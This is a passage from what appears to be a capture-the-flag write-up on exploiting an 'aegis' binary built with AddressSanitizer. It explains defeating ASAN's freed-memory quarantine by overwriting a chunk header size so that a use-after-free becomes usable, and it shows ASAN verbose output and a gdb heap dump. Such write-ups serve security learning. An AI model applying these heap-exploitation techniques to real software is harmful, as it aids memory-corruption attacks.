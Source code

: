 However to use the Use After Free, we will have to deal with an aspect of Address Sanitization first. The thing is with ASAN, it will try to not reuse freed memory until a certain amount has already been freed. The reason for this is it is designed to find memory corruption bugs instead of being efficient(like Use After Frees), so it will do this to hopefully find more bugs. So we will have to free a certain amount of memory before we can use the use after free. We can find out how much memory we need to free to cause freed memory to be reallocated like this:

```
$	export ASAN_OPTIONS=verbosity=1
$	./aegis 
==20689==AddressSanitizer: libc interceptors initialized
|| `[0x10007fff8000, 0x7fffffffffff]` || HighMem    ||
|| `[0x02008fff7000, 0x10007fff7fff]` || HighShadow ||
|| `[0x00008fff7000, 0x02008fff6fff]` || ShadowGap  ||
|| `[0x00007fff8000, 0x00008fff6fff]` || LowShadow  ||
|| `[0x000000000000, 0x00007fff7fff]` || LowMem     ||
MemToShadow(shadow): 0x00008fff7000 0x000091ff6dff 0x004091ff6e00 0x02008fff6fff
redzone=16
max_redzone=2048
quarantine_size_mb=256M
thread_local_quarantine_size_kb=1024K
malloc_context_size=30
SHADOW_SCALE: 3
SHADOW_GRANULARITY: 8
SHADOW_OFFSET: 0x7fff8000
==20689==Installed the sigaction for signal 11
==20689==Installed the sigaction for signal 7
==20689==Installed the sigaction for signal 8
==20689==T0: stack [0x7ffd2f036000,0x7ffd2f836000) size 0x800000; local=0x7ffd2f833b58
==20689==AddressSanitizer Init done
  ___   ____ _____ _____ _______ ____ _____ _____   ____   ___  _  ___  
 / _ \ / ___|_   _|  ___/ /_   _/ ___|_   _|  ___| |___ \ / _ \/ |/ _ \ 
| | | | |     | | | |_ / /  | || |     | | | |_      __) | | | | | (_) |
| |_| | |___  | | |  _/ /   | || |___  | | |  _|    / __/| |_| | |\__, |
 \___/ \____| |_| |_|/_/    |_| \____| |_| |_|     |_____|\___/|_|  /_/
```

We can see that we need to free `256` megabytes (the value of `quarantine_size_mb`). Now since we can't allocate that much memory in the code, we will need to jump through some hoops to do this. What we can do is overwrite the size of a chunk in it's header to be something like `0xffffffff`. Then when it frees the chunk with the overflowed memory, then it will have surpassed the `quarantine_size_mb` limit and we will be able to allocate freed chunks.

#### Header Overflow

Now for figuring out how to overwrite the header. First let's take a look at a chunk (keep in mind that with address sanitization it uses a custom malloc, so it's a bit different). This chunk is what we get when we allocate a `0x10` byte chunk with the contents `000000000` and id `0xffffffffffffffff`:

```
gef➤  x/40g 0x0000602000000000
0x602000000000:	0x2ffffff00000002	0x1e80000120000010
0x602000000010:	0x30303030303030	0xffffffffffffffff
0x602000000020:	0x2ffffff00000002	0x7180000120000010
0x602000000030:	0x602000000010	0x563d6b2a4ab0
```
